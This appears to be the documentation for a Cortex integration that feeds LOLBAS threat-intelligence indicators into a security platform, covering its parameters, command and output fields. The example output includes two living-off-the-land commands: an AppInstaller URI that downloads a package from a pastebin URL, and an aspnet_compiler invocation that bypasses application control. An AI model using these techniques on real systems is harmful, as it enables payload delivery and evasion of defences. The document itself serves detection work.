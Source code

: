 This integration was integrated and tested with version v1 of LOLBAS.

## Configure LOLBAS Feed in Cortex


| **Parameter** | **Description** | **Required** |
| --- | --- | --- |
| Base URL |  | True |
| Fetch indicators |  | False |
| Indicator Reputation | Indicators from this integration instance will be marked with this reputation. | False |
| Source Reliability | Reliability of the source providing the intelligence data. | True |
| Traffic Light Protocol Color | The Traffic Light Protocol \(TLP\) designation to apply to indicators fetched from the feed. | False |
| Bypass exclusion list | When selected, the exclusion list is ignored for indicators from this feed. This means that if an indicator from this feed is on the exclusion list, the indicator might still be added to the system. | False |
| Use system proxy settings |  | False |
| Trust any certificate (not secure) |  | False |
| Tags | Supports CSV values. | False |
| Create relationships |  | False |
| Feed Fetch Interval |  | False |


## Commands

You can execute these commands from the CLI, as part of an automation, or in a playbook.
After you successfully execute a command, a DBot message appears in the War Room with the command details.

### lolbas-get-indicators

***
Retrieves a limited number of indicators.

#### Base Command

`lolbas-get-indicators`

#### Input

| **Argument Name** | **Description** | **Required** |
| --- | --- | --- |
| limit | The maximum number of indicators to return. | Required | 

#### Context Output

| **Path** | **Type** | **Description** |
| --- | --- | --- |
| LOLBAS.Indicators.Commands.category | String | The category of the command. | 
| LOLBAS.Indicators.Commands.command | String | The command. | 
| LOLBAS.Indicators.Commands.description | String | The description of the command. | 
| LOLBAS.Indicators.Commands.mitreid | String | The MITRE ID related to the command. | 
| LOLBAS.Indicators.Commands.operatingsystem | String | The operating system the command ran on. | 
| LOLBAS.Indicators.Commands.privileges | String | The privileges required to run the command. | 
| LOLBAS.Indicators.Commands.usecase | String | The use case of the command. | 
| LOLBAS.Indicators.Description | String | The description of the indicator. | 
| LOLBAS.Indicators.Detections.content | String | The content of the detection. | 
| LOLBAS.Indicators.Detections.type | String | The type of the detection. | 
| LOLBAS.Indicators.Name | String | The name of the indicator. | 
| LOLBAS.Indicators.Paths.path | String | The path of the indicator. | 
| LOLBAS.Indicators.Type | String | The type of the indicator. | 
| LOLBAS.Indicators.URL | String | The URL to the indicator. | 

#### Command example

```!lolbas-get-indicators limit=2```

#### Context Example

```json
{
    "LOLBAS": {
        "Indicators": [
            {
                "Commands": [
                    {
                        "category": "Download",
                        "command": "start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw",
                        "description": "AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in C:\\Users\\%username%\\AppData\\Local\\Packages\\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\\AC\\INetCache\\<RANDOM-8-CHAR-DIRECTORY>",
                        "mitreid": "Ingress Tool Transfer",
                        "operatingsystem": "Windows 10, Windows 11",
                        "privileges": "User",
                        "usecase": "Download file from Internet"
                    }
                ],
                "Description": "Tool used for installation of AppX/MSIX applications on Windows 10",
                "Detections": [
                    {
                        "content": "https://github.com/SigmaHQ/sigma/blob/bdb00f403fd8ede0daa04449ad913200af9466ff/rules/windows/dns_query/win_dq_lobas_appinstaller.yml",
                        "type": "Sigma"
                    }
                ],
                "Name": "AppInstaller.exe",
                "Paths": [
                    {
                        "path": "C:\\Program Files\\WindowsApps\\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\\AppInstaller.exe"
                    }
                ],
                "Type": "Tool",
                "URL": "https://lolbas-project.github.io/lolbas/Binaries/AppInstaller/"
            },
            {
                "Commands": [
                    {
                        "category": "AWL Bypass",
                        "command": "C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\aspnet_compiler.exe -v none -p C:\\users\\cpl.internal\\desktop\\asptest\\ -f C:\\users\\cpl.internal\\desktop\\asptest\\none -u",
                        "description": "Execute C# code with the Build Provider and proper folder structure in place.",
                        "mitreid": "Trusted Developer Utilities Proxy Execution",
                        "operatingsystem": "Windows 10, Windows 11",
                        "privileges": "User",
                        "usecase": "Execute proxied payload with Microsoft signed binary to bypass application control solutions"
                    }
                ],
                "Description": "ASP.NET Compilation Tool",
                "Detections": [
                    {
                        "content": "https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules",
                        "type": "BlockRule"
                    },
                    {
                        "content": "https://github.com/SigmaHQ/sigma/blob/960a03eaf480926ed8db464477335a713e9e6630/rules/windows/process_creation/win_pc_lobas_aspnet_compiler.yml",
                        "type": "Sigma"
                    }
                ],
                "Name": "Aspnet_Compiler.exe",
                "Paths": [
                    {
                        "path": "c:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\aspnet_compiler.exe"
                    },
                    {
                        "path": "c:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\aspnet_compiler.exe"
                    }
                ],
                "Type": "Tool",
                "URL": "https://lolbas-project.github.io/lolbas/Binaries/Aspnet_Compiler/"
            }
        ]
    }
}
```

#### Human Readable Output

>### LOLBAS indicators
>
>|Name|Description|
>|---|---|
>| AppInstaller.exe | Tool used for installation of AppX/MSIX applications on Windows 10 |
>| Aspnet_Compiler.exe | ASP.NET Compilation Tool |

